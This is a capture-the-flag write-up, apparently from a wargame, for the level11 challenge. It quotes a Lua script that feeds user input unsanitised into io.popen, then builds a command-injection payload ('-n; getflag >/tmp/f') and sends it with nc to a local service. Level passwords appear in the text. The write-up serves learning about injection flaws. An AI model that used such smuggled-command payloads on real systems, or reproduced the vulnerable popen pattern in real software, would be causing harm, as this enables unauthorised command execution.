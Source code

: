 # LEVEL 06

> [!TIP]
> user: `level11` <br>
> pass: `feulo4b72j7edeahuete3no7c`

## STEP 01

After login as level11, we can that we have an `level11.lua` with suid/sgid bits
set

a quick cat on the file show us the full script, but we gonna focus on the
following part
```lua
cat level11.lua
[...]
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
[...]
```

We can see that a command injection is possible, because the variable `pass` is
our user input, is concatenate with other command and passed as is to the
`io.popen`

## STEP 02, Crafting payload

The first i think of was to brutally put and `-n; getflag` but it give use the
following error message `Password: Erf nope..`. that is because the output of
the command is piped to the `sha1sum`. that behing said, redirecting the output
of the command to a file we have access to is enought to bypass this constraint

so the do this level here's a oneline command:
`rm -f /tmp/f; { echo '-n; getflag >/tmp/f' | nc localhost 5151; }; cat /tmp/f`

> [!IMPORTANT]
> the password for the next level is `fa6v5ateaw21peobuub8ipe6s`
